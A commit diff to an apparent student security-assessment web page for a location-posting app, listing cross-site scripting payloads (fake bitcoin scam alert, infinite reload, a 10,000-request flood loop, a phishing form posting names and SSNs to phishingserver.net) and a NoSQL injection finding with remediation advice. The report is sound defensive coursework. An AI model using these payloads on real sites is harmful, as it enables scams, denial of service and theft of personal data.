

Before and after one commit to cmeyerhoff/comp20-cmeyerhoff, a plain HTML site: page security/index.html in a window 1280 px wide. Shown: the part 2102-2977 px from the top of the page. Before the commit the page ends 2676 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Continuing Progress 2

```diff
--- a/security/index.html
+++ b/security/index.html
@@ -36,7 +36,7 @@
 			<p> More sinister examples include posting things such as:</p>
 			<ul>
 				<li>&ltscript&gtalert("Hello! Your data is unsecure. Please send a donation in bitcoin to the water foundation at the address 1HesYJSP1QqcyPEjnQ9vzBL1wujruNGe7R to make your data secure again!") &lt/script&gt<br><img src="Phony_Alert.png" alt="phony alert" id="scale_picture_50"><br><br></li>
-				<li>&ltscript&gtwhile(1){location.reload(true)}&lt/script&gt  This makes the page hang and never load:<br><img src="Not_loading.png" alt="First vulnerability location" id="scale_picture_40"><br><br></li>
+				<li>&ltscript&gtwhile(1){location.reload(true)}&lt/script&gt  This makes the page hang and never load:<br><img src="Not_loading.png" alt="page hanging" id="scale_picture_40"><br><br></li>
 				<li>Picture same as the above example, but many POSTS are made. Could be made infinite loop, and every person trying to access page would be posting a ton, which becomes sort of a psuedo DDOS.<br> &ltscript&gtfor (i = 0; i &lt 10000; i++) { var http = new XMLHttpRequest();
 					var url = "http://localhost:3000/sendLocation"; <br>
 					var params = "login=crashtestdummies&lat=12&lng=12"; <br>
@@ -48,19 +48,18 @@
 					http.send(params); <br>
 					console.log("request sent!")}&lt/script&gt <br><br></li>
 				<li>&ltform action="http://phishingserver.net" method="post"&gt &ltlabel for="name"&gtPlease enter your name:  &lt/label&gt&ltinput name="name" id="name" value="JohnDoe7"&gt&ltbr&gt&ltlabel for="SSN"&gt Please enter your social security number:  &lt/label&gt&ltinput name="SSN" value="0000000"&gt &ltbr&gt &ltbutton&gtContinue Logging In!&lt/button>&lt/form&gt<br><img src="Phishing.png" alt="Phishing form" id="scale_picture_40"></li>
+				<li>Redirects can be done in various ways, which can happen on page load etc. This mimics another security issue of Unvalidated Redirects/Forwards.</li>
 			</ul>
-			<p>The other fields are more thoroughly checked for validity, and they appear to be secure. To resolve this issue, there are a few paths. </p>
-			<p>More stringent check on user input, or only allowing</p>
-			Psuedo Unvalidated Redirects/Forwards
-			Could store User logins in another database, and if a certain login or login+password are input, then the headers could be set selectively ie Access-Control-Allow-Origin is set differently for each request if you have a valid login etc.
-
-
-
-
-			RESOLUTION
+			<p>The other fields are more thoroughly checked for validity, and they appear to be secure. There are a few paths to resolve the issue with the insecure field that is the echoed back. </p>
+			<p>If the application operator wants the ideal solution that limits posting to only authorized users rather than everyone, they could add a separate user authorization process where users register a login that is thoroughly validated (could also use a password or api key instead of login). This login would be stored in a separate database (or hashes of the login/password combos could be stored etc), which could then be referenced every time someone tries to post to the server at the /sendLocation path. This approach would have the benefit that the headers could be set selectively (ie Access-Control-Allow-Origin is set differently for each request if you have a valid login rather than using the wildcard '*').</p>
+			<p>If the operator wants everyone to have the ability to post their locations, then at a bare minimum, the login key value pair needs to be validated more thoroughly, via escaping characters, or limiting the value of login to alphanumeric characters only.</p>
 
 		<h4>Injection Vulnerability - All data accessible</h4>
-
+			<p> This issue is that there is the ability to perform injections on the noSQL database underlying the Not Foursquare platform. In this use case it is only of moderate severity, as I was only able to exposes all of the data in the collection on the database, which was already public, but I believe someone more skilled could execute other javascript commands on the databse. I found this by looking for places where something was done with user input with little or no validation. The problem can be examined in the picture below. As one can see, user input is used more or less unfiltered in performing a query on the database via collection.find(). Changing the loginEntry variable by modifying the query string on the GET request allows the user to cause unintended behavior.</p>
+			<img src="Location2.png" alt="Second vulnerability location" id="scale_picture_50">
+			<p> This path is normally intended to allow users to search for specific things in the database. However, by searching for results that are not equal to something that is not in the database, we gain access to everything in the collection (see picture below). This would yield problems if there were sensitive data in the collection, or if only certain information in the collection were public, as everything in the collection would be exposed.</p>
+			<img src="Injection.png" alt="Injection example" id="scale_picture_50">
+			<p></p>
 		<h4>Attacking The Database</h4>
 		Psuedo Cross Site Request Forgery
 		<h4>Other Issues</h4>
```
Also changed, not shown: security/Injection.png (renamed from security/Screen Shot 2017-07-06 at 4.33.51 PM.png), security/Location2.png (added), 2 other files.
